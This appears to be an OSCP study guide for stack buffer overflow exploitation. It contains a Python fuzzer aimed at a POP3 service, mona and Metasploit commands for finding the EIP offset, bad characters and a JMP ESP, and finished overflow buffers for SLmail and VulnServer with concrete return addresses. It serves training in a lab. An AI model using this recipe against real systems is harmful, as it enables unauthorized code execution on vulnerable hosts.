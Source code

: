 # Buffer Overflow Steps for OSCP
## High Level Steps
Buffer overflows will start with an entry point, usually a PoC buffer overflow which causes a crash with not remote code execution. Given this follow the steps below. Each iteration below requires crashing the service each time with immunity attached.
1) [Fuzz the service to replicate the crash in python](#fuzzing)
2) [Create a stand alone crash script](#create-standalone-crash-script)
3) [Find the offset of the EIP overwrite](#find-the-offset-of-the-eip-overrite)
4) [Target and overwrite the EIP](#target-and-overwrite-the-eip)
5) [Find the bad chars for this application](#find-the-bad-chars-for-this-application)
6) [Find code to jump to ESP](#find-code-to-jump-to-esp)
7) [Set a breakpoint on the jump to make sure it works](#set-a-breakpoint-on-the-jump-to-make-sure-it-works)
8) [Generate a payload with MSF and add some no-ops before it](#generate-a-payload-with-msf-and-add-some-no-ops-before-it)
## Fuzzing
Iterate over chunks of data to find a ball park for where the crash is.

Sample Fuzzer
```python

import socket
buff = ["A"]
counter = 100

while( len(buff) <= 30 ):
	buff.append("A"*counter)
	counter=counter + 200
for string in buff:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		print("Fuzzing PASS with {} bytes ".format(len(string)))
		s.connect(("10.11.11.42", 110))
		data = s.recv(1024)
		print (data)

		s.send('USER test\r\n')
		data = s.recv(1024)
		print(data)

		s.send('PASS ' + string + '\r\n')
		data = s.recv(1024)
		print(data)

		s.send('QUIT\r\n')

		s.close()
		print("Done")
	except Exception as e:
		print("could not connect to pop 3 because {}".format(e))
```

## Create Standalone Crash Script
Remove the fuzzing from the script and just send the chunk of A's which cause the crash

## Find the offset of the EIP overwrite
Generate a pattern the same length of the A's sent in and make that the payload.
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <LENGTH>
```
Make this the payload and resend to the application. Once it's crashed, use mona to find the pattern offset.
```
!mona findmsp
```

## Target and overwrite the EIP
Overrite the EIP with 'B' by changing the payload to
```python
payload = "A"*find_msp_offset+"B"*4+"C"*remaining_length
```

## Find the bad chars for this application
Use mona and the crash script to find these. If the application is netascii (telnet, ftp, smtp, ect), then there are 3 off the bat, "\x00\x0a\x0d".

```python
badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

Remove 0x00,0x0A,0x0D if netascii from the list

Send to the exploit up and wait for the crash

Use mona to find the bad chars.

Generate the local bad chars compare file
```
!mona config -set workingfolder c:\logs\%p
!mona bytearray
```
if netascii, do,
```
!mona bytearray -cpb "\x00\x0a\x0d"
``` 

Run mona to find bad chars. Get the address in the ESP.
```
!mona compare -f C:\logs\<app-name>\bytearray.bin -a <address-in-esp>
```

Once a bad char is found, remove from the payload in the python code, regenerate the bytearray in mona and reexploit until the buffers match.

Regenerate byte code without 0xef
```
!mona bytearray -cpb "\xef"
```

## Find code to jump to ESP
Find characters with decodes to op codes to in Non-DEP Non-ASLR modules in the code

```
!mona jmp -r esp
```
or
```
!mona find -s “\xff\xe4” 
```

Can search in a specific non-aslr'd module via this:

```
!mona find -s “\xff\xe4” -m <module>
```

## Set a breakpoint on the jump to make sure it works
Set a breakpoint on the jump location to make sure the overwrite of the EIP is correct. 

In immunity, set a break point by navigating to the module section and jumping to the location.

1) window -> modules
2) Select module jump code is in
3) CTRL+G, then type in address
4) Right click on code segment and select "Toggle Breakpoint"
5) May have to select decompile / decode from the context menu to see it as op-codes.

## Generate a payload with MSF and add some no-ops before it
Generate the payload with MSFVenom. Make sure the bad chars are specified as well. When adding to the exploit code, append some no-ops. If the exploit isn't working, e.g. the application is still crashing in immunity keep adding no-ops.

```python
# SLmail
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + buf

# VulnServer
req1 = "AUTH " + "A"*1040 + "\x71\x1d\xd1\x65" + "\x90" * 32 + buf
```

## References

Using Immunity

http://www.fuzzysecurity.com/tutorials/expDev/2.html

Finding Bad Chars

https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/
